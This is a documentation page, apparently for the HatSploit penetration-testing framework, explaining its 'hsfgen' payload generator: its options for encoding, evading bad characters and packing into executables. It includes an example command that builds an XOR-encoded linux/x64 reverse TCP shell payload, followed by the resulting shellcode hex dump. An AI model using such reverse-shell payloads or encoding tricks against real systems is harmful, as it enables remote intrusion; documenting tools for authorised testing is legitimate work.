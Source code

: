 ```yaml
---
layout: default
title: Using hsfgen
parent: Getting started
nav_order: 9
---
```


HatSploit Framework has a native command-line payload generator called `hsfgen`. It is packaged by default with all other HatSploit utilities.

## Command-line Options

```
usage: hsfgen [-h] [-p PAYLOAD] [-e ENCODER] [--platform PLATFORM]
              [--arch ARCH] [-f FORMAT] [--formats] [--payloads] [--encoders]
              [--options option1=value1,option2=value2,...] [-i ITERATIONS]
              [-b BADCHARS] [--pack] [--implant] [-a] [-o OUTPUT]

Native HatSploit Framework advanced payload generator.

options:
  -h, --help            show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        HatSploit payload.
  -e ENCODER, --encoder ENCODER
                        HatSploit encoder.
  --platform PLATFORM   Payload platform.
  --arch ARCH           Payload architecture
  -f FORMAT, --format FORMAT
                        Generate payload with custom format.
  --formats             List all formats.
  --payloads            List all payloads.
  --encoders            List all encoders.
  --options option1=value1,option2=value2,...
                        Add options to encoder/payload.
  -i ITERATIONS, --iterations ITERATIONS
                        Number of encoding iterations.
  -b BADCHARS, --badchars BADCHARS
                        Bad characters to omit (e.g. \x00).
  --pack                Pack payload as a compatible executable format.
  --implant             Output implant instead of complete payload.
  -a, --assembly        Show assembly for payloads.
  -o OUTPUT, --output OUTPUT
                        Output file to write payload to.
```

### Generate payload

Options `-p` and `-e` must be used to generate specific payload and encode it with the specific encoder.

* `-i`, `--iterations` - encode payload `N` times.
* `-b`, `--badchars` - omit bad characters duing the generation.
* `--options` - set options in payload and/or encoder.
* `--pack` - pack payload into executable file.
* `--implant` - generate only implant of the payload not the complete payload.
* `-f`, `--format` - select custom executable format.
* `-o`, `--output` - output result to the file.
* `-c`, `--custom` - specify custom directory with HatSploit payloads.

### Listing

* `--formats` - list all available executable formats (can be used with `--platform`).
* `--payloads` - list all available payloads (can be used with `--platform` and `--arch`).
* `--encoders` - list all available encoders (can be used with `--platform` and `--arch`).

## Examples

To generate simple `linux/x64/shell_reverse_tcp` payload and encode it with `x64/xor`:

```
hsfgen -p linux/x64/shell_reverse_tcp --options rhost=127.0.0.1,rport=8888 -e x64/xor
```

The output of this code will be:

```hsf
[*] Attempting to generate linux/x64/shell_reverse_tcp...
[i] Payload will be encoded with x64/xor
[*] Writing raw payload (112 bytes)...
00000000  48 31 c9 48 81 e9 b6 ff  ff ff 48 8d 05 ef ff ff |H1.H......H.....|
00000010  ff 48 bb 68 61 74 73 70  6c 36 34 48 31 58 27 48 |.H.hatspl64H1X'H|
00000020  2d f8 ff ff ff e2 f4 02  48 2c ea 1a 6e 69 5e 69 |-.......H,..ni^i|
00000030  3f 7b 76 38 fb 7e 8d 6a  61 56 cb b0 c4 34 5b 39 |?{v8.~.jaV...4[9|
00000040  29 fd 95 1a 7c 6c 5e 42  39 7b 76 1a 6f 68 7c 97 |)...|l^B9{v.oh|.|
00000050  af 1e 52 28 63 33 41 9e  0b 4f 2b e9 24 8d 1b 0a |..R(c3A..O+.$...|
00000060  08 1a 5c 03 04 36 67 20  e8 93 21 27 24 bf d2 67 |.....6g ..!'$..g|
00000070  64                                               |d               |
```

If you'd like to save it to the file call it with `-o`.

If you wish to pack it into `ELF` so it could be executed in the future, call `--pack` or `-f elf`.
